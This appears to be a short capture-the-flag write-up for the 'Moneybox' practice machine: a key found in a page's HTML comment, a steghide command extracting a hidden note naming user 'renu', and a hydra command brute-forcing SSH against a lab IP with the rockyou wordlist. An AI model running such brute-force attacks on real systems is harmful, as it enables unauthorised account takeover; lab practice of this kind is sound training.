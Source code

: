     <h1>There is Nothing In this Page.........</h1>

</body>

</html>

  

<!..Secret Key 3xtr4ctd4t4 >

Maybe SSH or steg since I got an image before.

Password looks like 1337 speak for "Extracted" so I'll try the steg then try bruteforce on ssh since I still need a username

  

#Exploit

##Steg

3xtr4ctd4t4

Find top steg tools. Start at #1 and go down until it works...

###1. Steghide

steghide extract -sf trytofind.jpg -p 3xtr4ctd4t4               16:06:13

  

wrote extracted data to "data.txt".

 kali  🏡  OSCP  Moneybox                                                

 →  cat data.txt                                                    16:06:14

Hello.....  renu

  

      I tell you something Important.Your Password is too Week So Change Your Password

Don't Underestimate it.......

  

Skip the rest and now I bruteforce ssh with user renu

2. Stegoshare

3. Wavsteg

4. Snow

5. Steganoroute

  

##SSH 

###Bruteforce
```
hydra -l renu -P /usr/share/wordlists/rockyou.txt ssh://192.168.169.230
```

  

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
